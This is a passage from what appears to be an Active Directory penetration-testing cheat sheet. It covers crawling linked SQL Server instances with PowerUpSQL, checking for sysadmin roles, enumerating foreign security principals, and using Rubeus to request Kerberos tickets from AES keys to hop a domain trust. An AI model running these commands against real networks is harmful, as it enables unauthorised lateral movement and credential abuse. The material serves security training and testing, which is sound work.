 ````
List databases
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query 'SELECT name FROM master..sysdatabases;' | Where-Object customquery | Select-Object instance, customquery -ExpandProperty customquery | Select-Object instance, name

#List tables
Get-SQLServerLinkCrawl -Instance <INSTANCE> -QueryTarget AC-DBBUSINESS -Query "SELECT name FROM <DATABASE>..sysobjects WHERE xtype = 'U'" | Select-Object -ExpandProperty customquery

#List columns

#List the contents of table
```
 
### SQL Queries
#### Check if current user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Check if a user is sysadmin
```
SELECT IS_SRVROLEMEMBER('sysadmin','<USER>')
```

#### List all sysadmins
```
SELECT   name,type_desc,is_disabled FROM     master.sys.server_principals  WHERE    IS_SRVROLEMEMBER ('sysadmin',name) = 1 ORDER BY name
```

## Foreign Security Principals
- A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users, Enterprise DCs etc.).

#### Enumerate users who are in groups outside of the user’s current domain
```
Get-DomainForeignUser 
ConvertFrom-SID <SID>
```

#### Enumerates group in the target domain that contain users/groups who are not in the target domain.
```
Get-DomainForeignGroupMember -Domain <TARGET DOMAIN FQDN>
ConvertFrom-SID <SID>
```
 
### Hop trust
- Easiest way is to use the username/password to start a new powershell session or do a runas.
- If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.
 
#### Create TGT
```
.\Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES KEY> /nowrap
```
 
#### Request a referral ticket
- from the current domain, for the target domain.
```
.\Rubeus.exe asktgs /service:krbtgt/<EXTERNAL FQDN> /domain:<FQDN> /dc:<DC FQDN> /ticket:<BASE64 TICKET> /nowrap
```
 
````